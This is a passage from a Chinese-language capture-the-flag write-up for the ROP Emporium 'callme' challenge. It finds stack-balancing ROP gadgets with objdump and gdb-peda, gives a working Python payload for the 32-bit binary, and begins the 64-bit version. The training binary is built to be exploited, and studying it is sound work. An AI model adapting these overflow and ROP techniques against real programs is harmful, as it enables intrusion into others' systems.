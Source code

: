 我们要做的是依次调用 `callme_one()`、`callme_two()` 和 `callme_three()`，并且每个函数都要传入参数 `1`、`2`、`3`。通过调试我们能够知道函数逻辑，`callme_one` 用于读入加密后的 flag，然后依次调用 `callme_two` 和 `callme_three` 进行解密。

由于函数参数是放在栈上的，为了平衡堆栈，我们需要一个 `pop;pop;pop;ret` 的 gadgets：
```
$ objdump -d callme32 | grep -A 3 pop
...
 80488a8:       5b                      pop    %ebx
 80488a9:       5e                      pop    %esi
 80488aa:       5f                      pop    %edi
 80488ab:       5d                      pop    %ebp
 80488ac:       c3                      ret    
 80488ad:       8d 76 00                lea    0x0(%esi),%esi
...
```
或者是 `add esp, 8; pop; ret`，反正只要能平衡，都可以：
```
gdb-peda$ ropsearch "add esp, 8"
Searching for ROP gadget: 'add esp, 8' in: binary ranges
0x08048576 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
0x080488c3 : (b'83c4085bc3')    add esp,0x8; pop ebx; ret
```

构造 payload 如下：
```python
from zio import *

payload  = "A"*44

payload += l32(0x080485c0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x08048620)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

payload += l32(0x080485b0)
payload += l32(0x080488a9)
payload += l32(0x1) + l32(0x2) + l32(0x3)

io = zio('./callme32')
io.writeline(payload)
io.read()
```

#### callme
64 位程序不需要平衡堆栈了，只要将参数按顺序依次放进寄存器中就可以了。

```
$ rabin2 -i callme | grep callme
ordinal=004 plt=0x00401810 bind=GLOBAL type=FUNC name=callme_three
ordinal=008 plt=0x00401850 bind=GLOBAL type=FUNC name=callme_one
ordinal=011 plt=0x00401870 bind=GLOBAL type=FUNC name=callme_two
```
```
gdb-peda$ ropsearch "pop rdi; pop rsi"
Searching for ROP gadget: 'pop rdi; pop rsi' in: binary ranges
0x00401ab0 : (b'5f5e5ac3')      pop rdi; pop rsi; pop rdx; ret
```
